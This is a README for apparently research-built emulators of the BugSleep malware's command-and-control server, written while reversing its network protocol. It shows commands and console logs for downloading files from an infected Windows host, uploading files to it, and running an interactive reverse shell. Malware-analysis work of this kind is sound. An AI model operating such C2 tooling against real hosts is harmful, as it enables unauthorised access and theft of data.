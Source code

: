 # BugSleep C2 emulator

The repository stores two C2 emulators developed while [reversing](https://raw-data.gitlab.io/post/bugsleep_netprotocol/) the BugSleep network protocol. [One](BugSleepC2Emulator_file_download_upload.py) handles file download and upload tasks from an infected host, while the [second](BugSleepC2Emulator_RevShell.py) handles a basic Reverse Shell channel.

## BugSleepC2Emulator_file_download_upload.py

### Download a file from the remote host

```bash
sudo ./BugSleepC2Emulator_file_download_upload.py --hex-value 0 --remote-path C:\\Users\\Us3R\\Desktop\\w00t.bin -v
```

```bash
[BugSleepC2] Listening on 0.0.0.0:443

[Connection] Accepted connection from ('172.16.2.12', 50416)
[Connection] Handling command 0x0 (Download file from remote host to C2)

[Phase 1] Receiving message from client...
  [Phase 1] Received data (hexdump and ASCII view):
	Data: D3SKT0P-T0A11ER/Us3R

[Phase 2] Generating 4 random bytes to send to the client...

[Phase 3] Crafting and sending the new message...
[Info] Remote path 'C:\Users\Us3R\Desktop\w00t.bin' size: 60 bytes
[Function] Exec logic for hex 0x0 (Download file from remote host)
[Phase 4] Total file size calculated: 95 bytes
[Phase 5] Receiving file content of 95 bytes...
[Info] SHA-1 hash of the file content: 4828c4a964d478e62974fa2bad3fec59c5bddec8
[Info] Saving file as: 4828c4a964d478e62974fa2bad3fec59c5bddec8.bin
[Phase 5] File content saved to 4828c4a964d478e62974fa2bad3fec59c5bddec8.bin
[Connection] Client connection closed.
```

File on the target host

![](imgs/w00t.png)


### Upload a file to the remote host

```bash
sudo ./BugSleepC2Emulator_file_download_upload.py --hex-value 1 --file /bin/bash --drop-location C:\\Users\\Us3R\\Desktop\\bash -v
```

```bash
[BugSleepC2] Listening on 0.0.0.0:443

[Connection] Accepted connection from ('172.16.2.12', 50377)
[Connection] Handling command value 0x1 (Upload file from C2 to remote host)

[Phase 1] Receiving message from client...
  [Phase 1] Received data (hexdump and ASCII view):
	Data: D3SKT0P-T0A11ER/Us3R

[Phase 2] Generating 4 random bytes to send to the client...

[Phase 3] Crafting and sending the new message...
[Info] Drop location 'C:\Users\Us3R\Desktop\bash' size: 52 bytes
[Function] Exec logic for hex 0x1 (Upload file to remote host)
[Info] File size: 1183448 bytes, Full blocks: 1160, Last block size: 248 bytes
File transmission completed. Total bytes sent: 1183452
[Connection] Client connection closed.
```
File integrity can be simply checked with a hash, on the C2 side

```bash
sha1sum /bin/bash 
41ba1bd49cb22466e422098d184bd4267ef9529e  /bin/bash
```

and on the Windows side

![](imgs/bash_SHA1_hash.png)


## BugSleepC2Emulator_RevShell.py

The script provides a basic reverse shell to the operator on the infected system.

```bash
sudo ./BugSleepC2Emulator_RevShell.py -v
```

```bash
[BugSleepC2] Listening on 0.0.0.0:443

[Connection] Accepted connection from client: ('172.16.2.12', 50380)

[Phase 1] Receiving the first message from client...

[Phase 2] Sending 4 random bytes back to the client...

[Phase 3] Sending the initial message to the client...
[Shell] Interactive shell started. Type 'terminate' to exit.
z
[Shell] Enter a command ('terminate' to exit): whoami
Microsoft Windows [Version 10.0.19041.450]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\Users\Us3R\Desktop>
5whoami
d3skt0p-t0a11er\Us3R

C:\Users\Us3R\Desktop>
[Shell] Enter a command ('terminate' to exit): ipconfig
-ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : 
   IPv4 Address. . . . . . . . . . . : 172.16.2.12
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 172.16.2.135

C:\Users\Us3R\Desktop>
```

